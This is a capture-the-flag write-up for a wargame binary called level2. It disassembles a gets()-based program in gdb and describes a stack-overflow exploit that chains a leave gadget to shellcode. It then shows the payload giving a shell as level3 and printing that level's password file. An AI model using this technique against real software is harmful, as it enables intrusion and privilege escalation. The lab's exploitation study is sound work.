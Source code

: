 ## Level 2

level2:53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

Started the program level2 in gdb, and unsat two environment variables to ensure
the same stack offset.
```
$ gdb -q ./level2
(gdb) unset environment LINES
(gdb) unset environment COLUMNS
```
The main function calls an a function `p`
```
(gdb) disas main
   ...
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
```
The function p start by flushing the STDOUT
```
(gdb) disas p
   ...
   0x080484da <+6>:	mov    eax,ds:0x8049860
   0x080484df <+11>:	mov    DWORD PTR [esp],eax
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   ...
```
After that it uses gets() to get user input
```
   ...
   0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
   0x080484ea <+22>:	mov    DWORD PTR [esp],eax
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   ...
```
Than it checks that the return address (ebp+0x4) pushed to the stack by main()
does not start with '0xb', the purpose of this check is to prevent us from injecting
a shellcode and overriting the return address to execute it.
```
   ...
   0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:	and    eax,0xb0000000
   0x08048500 <+44>:	cmp    eax,0xb0000000
   ...
```
After passing this check the inputed string is printed using puts()
```
   ...
   0x08048527 <+83>:	lea    eax,[ebp-0x4c]
   0x0804852a <+86>:	mov    DWORD PTR [esp],eax
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   ...
```
And lastly, strdup() is used which will allocate memory and copy the user input into it
```
   ...
   0x08048532 <+94>:	lea    eax,[ebp-0x4c]
   0x08048535 <+97>:	mov    DWORD PTR [esp],eax
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   ...
```
To exploit this program, we had to overrite the EBP and EIP to point to `leave` instruction again, and use the same EBP again so the stack frame don't change after executing `leave`, after that we injected the EIP of our shell code and the shellcode itself.

The would be like this: offset[76 bytes] + EBP + EIP(leave) + EBP + EIP(shellcode) + nop[32 bytes] + shellcode

We created a script to generate this payload for us: shellcode.py.

We executed the program with the payload, and we got a shell as `level3`
```
$ python /tmp/shellcode.py | ./level2
$ whoami
level3
$ cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

